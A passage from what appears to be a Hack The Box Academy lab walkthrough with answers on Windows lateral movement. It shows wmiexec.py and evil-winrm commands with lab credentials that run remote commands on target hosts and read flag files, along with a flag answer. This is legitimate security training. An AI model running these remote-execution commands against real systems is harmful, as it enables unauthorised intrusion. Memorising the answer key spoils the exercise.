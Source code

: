 Right after they have established the tunnel to the internal network, students will proceed to utilize `wmiexec.py` from Impacket to get the contents of the `flag.txt` located in the `C:\Users\helen\Documents` directory:

Code: shell

```shell
wmiexec.py inlanefreight/helen:RedRiot88@172.20.0.52 "more C:\Users\helen\Documents\flag.txt"
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-14slkmk7v4]─[~]
└──╼ [★]$ wmiexec.py inlanefreight/helen:RedRiot88@172.20.0.52 "more C:\Users\helen\Documents\flag.txt"

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
```

Answer: `Helen_WMI_Flag`

## Windows Remote Management (WinRM)

### Question 1

#### "Use WinRM to connect to SRV01 and submit flag located at C:\Users\frewdy\Desktop\flag.txt"

After spawning the target, students will proceed to connect using `evil-winrm` and the credentials `Frewdy:Kiosko093`:

Code: shell

```shell
evil-winrm -i STMIP -u Frewdy -p Kiosko093
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-1qi0mc04vu]─[~]
└──╼ [★]$ evil-winrm -i 10.129.229.244 -u Frewdy -p Kiosko093
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Frewdy\Documents>
```

Subsequently, students will proceed to grab the flag from `C:\Users\frewdy\Desktop`:
